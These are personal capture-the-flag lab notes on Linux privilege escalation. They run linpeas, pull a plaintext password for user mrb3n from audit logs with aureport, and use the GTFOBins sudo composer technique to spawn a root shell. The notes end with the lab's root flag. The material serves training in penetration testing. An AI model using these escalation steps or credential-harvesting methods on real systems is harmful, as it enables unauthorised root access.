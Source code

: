 Will run the linpeas in the cry0l1t3 user
We just copy the linpeas.sh in the academy so that we can made a python server and host the file so that we could simply run it.

![[Pasted image 20230810084335.png]]

we had run the linpeas and got to know about cron jobs
and when we cat the audit.log file in the var/log/audit we confirmed the thing
![[Pasted image 20230810085416.png]]
exe="/usr/sbin/cron" 

command: aureport 
will give us the summary of the files in the folder
![[Pasted image 20230810085853.png]]

Command: aureport --tty
![[Pasted image 20230810090002.png]]

`NOTE - using built-in logs: /var/log/audit/audit.log
`1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
`2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
`3. 08/12/2020 02:28:24 89 0 ? 1 sh "whoami",<nl>
`4. 08/12/2020 02:28:28 90 0 ? 1 sh "exit",<nl>
`5. 08/12/2020 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>

User : mrb3n
`Password: mrb3n_Ac@d3my!

![[Pasted image 20230810090901.png]]

When i run sudo and pass the same credentials i got the same sudo user but we have to what composer is from the gitbins and run it as a sudo 

![[Pasted image 20230810091614.png]]

From the url https://gtfobins.github.io/gtfobins/composer/ we got this
## Sudo[](https://gtfobins.github.io/gtfobins/composer/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.


    TF=$(mktemp -d)
    echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
    sudo composer --working-dir=$TF run-script x
    
![[Pasted image 20230810092458.png]]

# cat root.txt
e6b0e61683c9ed694348a53de6ae9177
